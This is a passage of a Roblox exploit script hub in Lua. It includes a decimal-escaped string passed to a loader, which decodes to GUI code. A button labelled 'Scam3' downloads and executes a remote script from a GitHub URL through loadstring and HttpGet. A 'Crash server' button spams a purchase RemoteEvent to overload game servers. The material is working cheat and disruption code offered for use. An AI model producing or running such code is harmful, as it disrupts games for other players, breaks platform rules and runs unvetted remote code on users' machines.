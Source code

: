 101\108\115\101\10\9\9\114\101\116\117\114\110\32\110\111\116\105\102\121\40\34\83\101\114\118\101\114\104\111\112\34\44\34\67\111\117\108\100\110\39\116\32\102\105\110\100\32\97\32\115\101\114\118\101\114\46\34\41\10\9\101\110\100\10\101\110\100\41\10\10\120\46\78\97\109\101\32\61\32\34\120\34\10\120\46\80\97\114\101\110\116\32\61\32\70\114\97\109\101\10\120\46\66\97\99\107\103\114\111\117\110\100\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\66\111\114\100\101\114\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\80\111\115\105\116\105\111\110\32\61\32\85\68\105\109\50\46\110\101\119\40\48\46\56\54\52\55\54\56\54\56\52\44\32\48\44\32\48\44\32\48\41\10\120\46\83\105\122\101\32\61\32\85\68\105\109\50\46\110\101\119\40\48\44\32\55\54\44\32\48\44\32\53\48\41\10\120\46\70\111\110\116\32\61\32\69\110\117\109\46\70\111\110\116\46\79\115\119\97\108\100\10\120\46\84\101\120\116\32\61\32\34\88\34\10\120\46\84\101\120\116\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\50\53\53\44\32\50\53\53\44\32\50\53\53\41\10\120\46\84\101\120\116\83\99\97\108\101\100\32\61\32\116\114\117\101\10\120\46\84\101\120\116\83\105\122\101\32\61\32\49\52\46\48\48\48\10\120\46\84\101\120\116\87\114\97\112\112\101\100\32\61\32\116\114\117\101\10\120\46\68\114\97\103\103\97\98\108\101\32\61\32\116\114\117\101\10\120\46\77\111\117\115\101\66\117\116\116\111\110\49\68\111\119\110\58\99\111\110\110\101\99\116\40\102\117\110\99\116\105\111\110\40\41\10\9\103\97\109\101\46\67\111\114\101\71\117\105\46\83\99\114\101\101\110\71\117\105\58\68\101\115\116\114\111\121\40\41\10\101\110\100\41\10")()
end)

Section:NewButton("Scam3" , "scam2", function()
    loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
end)


local Section = Tab:NewSection("spama ou baixe autoclick")
Section:NewButton("Crash server", "Crash server", function()
    local args = {
    [1] = "Jet"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)
